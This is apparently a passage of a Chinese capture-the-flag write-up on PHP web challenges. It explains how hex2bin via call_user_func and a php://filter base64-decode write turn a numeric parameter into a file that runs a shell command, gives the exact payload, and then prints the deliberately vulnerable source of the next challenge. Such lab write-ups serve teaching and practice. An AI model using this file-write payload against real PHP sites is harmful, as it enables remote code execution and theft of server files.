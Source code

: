 

我们先不管他怎么利用，接着往下看

最后会调用file_put_contents函数，那思路就很明显了，我们通过写文件来拿到flag

但是我们要将v2这一串数字经过一系列转换后写入文件并执行要怎么做呢？

假如说我们可以将php代码转换成base64后再转换成hex，而得到的hex又刚好为数字，那我们就能实现我们的目标。

**那怎么进行格式转换呢?**

我们可以通过call_user_func函数调用php的内置类hex2bin，将我们传入的v2转换回base64编码，接着在写文件的时候，再通过php伪协议的方式将base64先转换为我们的代码再写入文件。

经过尝试我们可以得到符合条件的代码

```
<?=`cat *`;
base64:PD89YGNhdCAqYDs= (转hex去掉=)
hex:5044383959474E6864434171594473
```

我们需要在hex前面随便加两位数字来绕过截断

payload:

```
v1=hex2bin
v2=665044383959474E6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php
```



#### web103

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: atao
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-23 21:03:24

*/


highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    if(!preg_match("/.*p.*h.*p.*/i",$str)){
        file_put_contents($v3,$str);
    }
    else{
        die('Sorry');
    }
}
else{
    die('hacker');
}

?>
```
